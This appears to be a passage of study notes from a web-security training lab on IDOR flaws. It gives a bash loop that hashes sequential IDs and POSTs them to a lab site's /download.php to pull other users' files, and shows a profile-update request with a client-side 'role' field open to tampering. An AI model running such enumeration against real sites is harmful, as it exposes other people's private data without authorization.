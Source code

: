 ```sh
echo -n 1 | base64 -w 0 | md5sum
```
- -n and -w 0 flag to avoid adding newlines in bash

```python
In [1]: import hashlib

In [2]: import base64

In [3]: a = '1'

In [4]: b = base64.b64encode(str(a).encode())

In [5]: hashlib.md5(b).hexdigest()
Out[5]: 'cdd96d3cc73d1dbdaffa03cc6cd7339b'
```

## Mass Enumeration

- write a sample bash script to retrieve all data
- create from 1 - 10 for above function

```sh
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```
- make a POST request on `/download.php` with each of the above hashes as the `contract` value

```sh
for i in {1..10}; do
	for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
		curl -sOJ -X POST -d "contract=$hash" http://vuln-website/download.php
	done
done
```

# IDOR in Insecure APIs

- IDOR vulns may also be found in function calls and APIs
- `IDOR Information Disclosure Vulnerabilities` allows to read various types of resorces
- `IDOR Insecure Function Calls` call APIs or execute functions as another user
- such functions and APIs can be used to change anotehr user's private information, reset another user's password or even buy items using another user's payment information

## Identifying Insecure APIs

- suppose a website has a functionality to change the user profile with name, email and about me
- after changing the data, will make PUT request like
```
PUT /profile/api.php/profile/1 HTTP/1.1
Host: vuln-website.com
...
{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee",
    "full_name": "Amy Lindon",
    "email": "a_lindon@employees.htb",
    "about": "A Release is like a boat. 80% of the holes plugged is not good enough."
}
```
- interesting parameter in here is `role` which is set to employee
- the web application also appears to be setting the user access privileges on the client side in the form of `Cookie: role=employee` which appears to reflect the role specific for our user
- this is a common security issue